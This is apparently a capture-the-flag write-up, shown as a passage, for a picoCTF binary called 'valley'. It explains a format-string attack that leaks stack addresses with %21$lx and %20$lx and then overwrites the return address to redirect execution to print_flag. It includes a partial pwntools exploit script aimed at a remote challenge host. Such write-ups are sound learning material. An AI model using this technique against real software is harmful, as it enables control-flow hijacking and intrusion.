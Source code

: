 1. View the return address using `%<num>$lx`. In this case, through trial and error, I found it to be `%21$lx`. Through looking at the disassembled binary, the return address is the offset + `0x1413`, the `print_flag` address is `0x1269`, so we subtract `0x1413` and add `0x1269` to get our `print_flag` address
2. Compute the address holding the return address on the stack. Through trial and error, I found `%20$lx` holds the previous base pointer that was backed up onto the stack at the beginning of the function. Subtracting 8 bytes gives us the address that we want
3. One byte at a time, write the new address into the return address. Strictly speaking, since we know that `print_flag` and the original return address are close in memory, and will share the highest 5 bytes, we only really need to write the lowest 3 bytes of the return address

Since we need to do a lot of computation at runtime as we interface with the program, we use pwntools

```py3
from pwn import *
from sys import argv

conn = None
# Back up what we write into a text file
f = open('in.txt', 'wb')

# Helper functions to write to both the process and the text file
def write(s: bytes):
	conn.send(s)
	f.write(s)

def writeline(s: bytes):
	conn.sendline(s)
	f.write(s)
	f.write(b'\n')

# Setup connection to either use local binary or remote
if len(argv) < 2 or argv[1] == '-l':
	conn = process('./valley')
else:
	conn = remote('shape-facility.picoctf.net', 51442)

# Step 1: Leak an address relative to the instruction pointer
# Most easily done with the return address

# Leak 8-byte return address
writeline(b'%21$lx')
conn.recvline()
ret_addr = int(conn.recvline().decode().strip().split(': ')[1], 16)
print(f"Return address: {hex(ret_addr)}")
flag_addr = ret_addr - 0x1413 + 0x1269
print(f"Flag func address: {hex(flag_addr)}")

# Step 2: Leak an address on the stack to compute the address holding the return address

# Gets stack address of base next pointer
writeline(b'%20$lx')
ret_addr_loc = int(conn.recvline().decode().strip().split(': ')[1], 16) - 8
print(f"Return address location: {hex(ret_addr_loc)}")

# Step 3: Write flag function address directly into return address on stack

def write_byte(byte, addr):
	payload = f'%{byte}c'

	# Keep total payload length multiple of 8
	FMT_SPEC_LEN = 7
	padding = '+' * (8 - ((len(payload) + FMT_SPEC_LEN) % 8))
	total = len(payload) + FMT_SPEC_LEN + len(padding)
```